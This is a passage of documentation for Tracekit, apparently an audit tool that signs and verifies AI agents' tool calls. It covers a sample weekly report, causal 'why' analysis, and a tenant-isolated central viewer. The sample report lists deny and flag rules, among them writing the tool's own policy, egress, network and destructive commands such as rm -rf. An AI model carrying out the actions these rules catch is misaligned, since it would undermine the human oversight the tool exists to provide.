      e.g. Write /home/dev/.claude/projects/-home-dev-acme-shop/review.jsonl  (run 94a4eb27d3257cf540c7aa9e45ff1f4c)
  TK-D013  1  writing Tracekit's own files, signer state or policy
      e.g. Write /home/dev/.local/share/tracekit/policy.yaml  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  also matched (not why it was denied): TK-F005 2, TK-F001 1, TK-F004 1, TK-F009 1, TK-F012 1, TK-F013 1

Flagged calls (38), by rule (one call can match several rules):
  TK-F012  33  egress
      e.g. WebFetch https://docs.python.org/3/library/decimal.html  (run 106c78de23debce149d134d8dcea39e2)
  TK-F001  23  network
      e.g. Bash curl -s https://pypi.org/pypi/babel/json  (run 106c78de23debce149d134d8dcea39e2)
  TK-F013  23  egress
      e.g. Bash curl -s https://pypi.org/pypi/babel/json  (run 106c78de23debce149d134d8dcea39e2)
  TK-F002  9  network
      e.g. WebFetch https://docs.python.org/3/library/decimal.html  (run 106c78de23debce149d134d8dcea39e2)
  TK-F004  2  side_effect
      e.g. Bash pip install -r requirements.txt  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  TK-F003  1  destructive
      e.g. Bash rm -rf dist/tmp  (run 6a00d9bb2ee2b351a8c7e01922efc47d)
  and 2 more flag rules (--json lists every rule)

Integrity: 4 of 4 runs verify (assurance: dev)

This is an operator summary, not evidence. To hand evidence to someone, export the run (a full run id from above) and a trust file that pins the signer's log key:
  tracekit export --v2 --run <run id> -o run.tkb
  tracekit signer trust -o trust.json
They check the key in trust.json against their own copy of it, then: tracekit verify run.tkb --trust trust.json
```

A run is in the report when any of its records falls in the window, and its counts are of its records in the window.
Before it places or counts any run, it checks every record of the store against the newest checkpoint, in every
tenant (with `--tenant` too) and in the signer's own runs: each record's hash must be its event's, and the records'
hashes must make the checkpoint's root. The store files a record under the tenant, run id and time the record holds, so
an edit of any of them could move a run out of the report, into the signer's run or another tenant; instead the
edited record's hash no longer matches, and the run now holding it is listed `FAILED` whatever its tenant and times,
with the record's seq (a signer's run, or another tenant's under `--tenant`, is listed only then, and never counted).
When the hashes don't make the root (a hash was rewritten too), the store and every run are `FAILED`. Either way the
Integrity line starts `the store FAILED`. A run no checkpoint covers yet is `PENDING`; a run is placed in time by its
first and last records the checkpoint covers. Every count comes from records that verified: each run is exported and
checked with `tracekit verify`'s code against the store's own log key (or `--log-vkey`), as the viewer checks it, up to
the newest checkpoint. A run that fails is listed with its first failing check and not counted, nor its agent and
identity; an open run is verified to its latest checkpoint. Records newer than the checkpoint are not counted, and the
last Integrity line says how many the whole store holds. The command exits 1 when the store or a run fails, or a run
can't be checked, as `tracekit verify` does.

- **Holds**: each call held for a person and what became of it, as the viewer's PERMISSIONS says it (approved,
  `approved · ran`, rejected, refused, `refused: arguments changed`, revoked, expired, abandoned, or waiting: not
  answered once the run ended; a call the signer refused because a person rejected or revoked its approval reads
  rejected or revoked; a call blocked at once whose retry, sent again by the agent, ran under its approval is one
  hold, `approved · ran`, and a line says how many such retries it counted with their held calls); one example call of each outcome; who answered the holds in the window, marked
  `self-approved` when they approved their own run's call and `break-glass` when they broke the glass; and the longest a held call
  waited for its answer.
- **Denied and flagged calls, by rule**: each rule that is why, a rule of the deny (or flag) section, with its id, its
  count and its description from the policy the signer ran (the signer keeps every policy it ran in its data dir's
  `policies/`, named by its hash). One call can match several rules, so a section's rule counts can add up to more than
  its calls. The other rules that matched are listed apart: a rule of another section as `also matched (not why it was
  denied)`, and an engine check (such as `TK-SHELL-PARSE`, whose decision is the policy's `on_parse_error`) or any rule
  of a policy the report can't read as `not placed`, with a `Note:` saying how many calls cite such a policy. Every deny
  rule is listed with up to two example calls; flags, which are many, the six most frequent with one example each.
  `--json` has every rule, its `why` true, false (also matched) or null (not placed).
- **Example calls** are named as the viewer names them: the tool and the field it is known by (a command, a path, a
  URL), with the whole id of their run. The arguments come from the dev signer's
  [content vault](privacy.md#the-content-vault), only with `--dev` while the dev signer runs, and only when they open
  the record's commitment; each read is a signed `content.accessed` record naming `tracekit report`. A call reads
  `arguments not shown (the record holds only their salted hash)` when there is nothing to read (another store, no dev
  signer running, content older than its 7 days) or when redaction changed its arguments (a secret); when the dev
  signer running refuses the read or speaks another protocol, a `Note:` says so.
- **Export**: the last lines are the commands that export a run (`tracekit export --v2`, with the report's `--config`
  or `--data-dir` and `--tenant`) and write a trust file that pins the signer's log key (`tracekit signer trust`), then
  the one that verifies the run against it. Every run id in the report is whole, as `--run` needs it. The trust file
  is the operator's word for the key: whoever verifies checks the key in it against their own copy.

It reads the store without the signer's lock, as the viewer does, and never starts, stops or replaces a signer. The
report is the operator's view of the operator's own store, so its verdicts are operator-side (`dev` assurance on a
laptop): to hand evidence to an auditor, export the runs that matter and have them verified with keys they pinned
([auditor guide](auditor-guide.md)). Its limits are in [limits](limits.md#weekly-report-tracekit-report).

## Why

The viewer is also the UI of [`tracekit why`](why.md): with why logs it investigates them on the same page, so one run
is both signed evidence and a causal log.

```bash
tracekit view --dev --why runs --allow-program myapp.agents:SYSTEM   # the dev signer's runs with their why logs
tracekit view --why runs --allow-program myapp.agents:SYSTEM         # the same page on why logs alone, no signer store
```

`--why DIR` names the why logs (default: `why/` in the signer's data dir, where the signer-backed why runtime writes
them, when it exists). Without `--dev`, `--config` or `--data-dir` it shows the why logs alone. A tool call's why event cites the signed record it produced (`tracekit: {run_id, run_seq}`);
that citation joins the two.

- **Detail · where the arguments came from**: from the signed `provenance` of the call's decision (labelled
  `signed · observed`): each argument whose value only untrusted content brought into the run, its kind and the record
  that brought it (click to select it), never the value; `unavailable (signer restarted)` or `truncated` when the
  signer's index could not say. With a why log of the run, also the why analysis of each value: the task, a trusted
  input or result, an untrusted input or result, or written by the model.
- **Detail · WHY** (the detail's second view, for the selected call): the verdict sentence, **how it got here** (the
  observed path through agents, model calls and messages, from each of the 20 nearest untrusted inputs), **candidate causes** with their
  status (primary cause, contributing, confirmed, joint, inconclusive, no effect seen, ruled out, not tested), effect,
  95% interval and with → without rates, and **FIND THE CAUSE** / **RUN TEST**.
- **Views** (a run's page, keys `1` to `7`; the tape's **WHY LOG EVENTS**; the **INFLUENCE** page): **OVERVIEW**,
  **WHY** and the why log's **TIMELINE** (as below), **GRAPH**, the run's data flow (observed edges; tested causes
  in red; inferred links and ruled-out tests hidden until ticked; click a node for what it came from and led to),
  **AGENTS** (the channels used, the influence matrix, the critical path), **INFLUENCE** (across runs: each kind of
  content and the tools it reached, with tested effects). **DESK** shows every panel at once.
- **Alerts**: the why alerts (a sensitive call using a value only untrusted content supplied, a call downstream of
  untrusted input, evidence alerts) join the alert panel labelled `WHY`; signed records' alerts are labelled `SIGNED`.

FIND THE CAUSE and RUN TEST replay the run, so they run only for the programs passed with `--allow-program` (the run
names its program; replay imports it). Otherwise the panel shows the `tracekit why` command to run instead. New runs
and new alerts arrive over the page's event stream as they are recorded.

The why API is served by the viewer, on its session and checklist: `GET /api/why/workspace`, `GET /api/why/runs/<id>`,
`POST /api/why/runs/<id>/tests` and `/attribute` (the token, a same-origin JSON body) and `POST /v1/ingest` (a
Bearer token only: an `--ingest-token`, which reads nothing, else the token; [why.md](why.md#server-and-api)). Why logs belong to no tenant, so only the printed token
sees them, never an OIDC session.

## Central viewer

`tracekit view` with a `view.logs` section reads every log of a central deployment
([deploy-kubernetes.md](deploy-kubernetes.md)) and serves its runs to auditors, approvers and operators, read-only.

```yaml
data_dir: /tmp                        # the viewer's own; never a signer's
view:
  logs: [log-0.dsn, log-1.dsn]        # one DSN file per log (its schema), for a role holding READ_GRANTS only
  oidc: {issuer: corp, client_id: tracekit-viewer, redirect_uri: https://view.corp.example/callback,
         roles: {auditor: ["group:corp/auditors"], approver: ["group:corp/approvers"],
                 operator-admin: ["group:corp/sre"]}}
```

```bash
tracekit view --config viewer.yaml --host 0.0.0.0 --tls-cert tls.crt --tls-key tls.key
```

Each DSN's role holds `tracekit.storage.postgres.READ_GRANTS` (SELECT only), so the viewer can't write a log even by
mistake. Each log's verdicts pin the log vkey that log's store holds (or `--log-vkey`, for every log).

### Who sees what

| Session | Runs | Approvals |
|---|---|---|
| auditor (OIDC, the issuer's tenant claim) | its tenant's, read-only | none |
| approver (OIDC, the tenant claim) | its tenant's, read-only | its tenant's, with `view.signer` ([approvals.md](approvals.md#web-approvals-and-passkeys)) |
| operator-admin (OIDC) | every tenant's, read-only | none |
| the printed token | every tenant's, read-only | none |

The tenant is enforced in every query the viewer makes (a `tenant = …` condition taken from an auditor's or approver's
session, never from the request), not only on the page: a session of tenant A gets no run of tenant B from a list, a
search, a run's page or a bundle download, even with B's run id. Its only write path is the approval pages.

### Pages and API

`/runs` lists the runs, log by log, newest first, and searches them. Every request is a `GET`:

| Path | Answers |
|---|---|
| `/api/runs?run&agent&tenant&since&until&verdict&gaps&denies&approvals&limit&after` | `{runs, next}`: at most `limit` (50) runs, each with its log, tenant, agent, first and last event time, record count, gaps, denies, approvals and verdict; `next` is the `after` of the next page. `since`/`until` are RFC 3339 UTC times; `verdict` is `verified`, `failed` or `pending`; `gaps=1`, `denies=1` and `approvals=1` keep runs that have one; `tenant` narrows an operator-admin's list. One search query per log per page, plus a reader of each log with matching runs (it reads that log's index). |
| `/api/run?log&tenant&run&from` | the run's verdict with verify.v2's full report and, only when it verified, 500 of its records from the `from`th, with `next`; each request checks the run again, two at once at most: past that it is answered 503 with `Retry-After` |
| `/api/bundle?log&tenant&run` | the run's `.tkb` bundle; it shares `/api/run`'s limit, two at once |

A run's verdict is what `tracekit verify` gives the bundle the viewer exports from the store; a run whose last record no
checkpoint covers yet is `pending`, and a run that fails shows its failure report and none of its records. Every verdict
carries the label **"operator-side view — re-verify with the signed release for evidence"**: the viewer runs on the
operator's side, so its verdict is not evidence. An auditor downloads the bundle and checks it with `tracekit verify`
from the signed release, against keys and witnesses they pinned themselves ([auditor-guide.md](auditor-guide.md)).

The page and API pass the browser surface's checklist ([security-checklist.md](security-checklist.md)): strict CSP
with a fresh nonce, every value shown as text, `HttpOnly; SameSite=Strict` session cookies, and HTTPS off loopback.
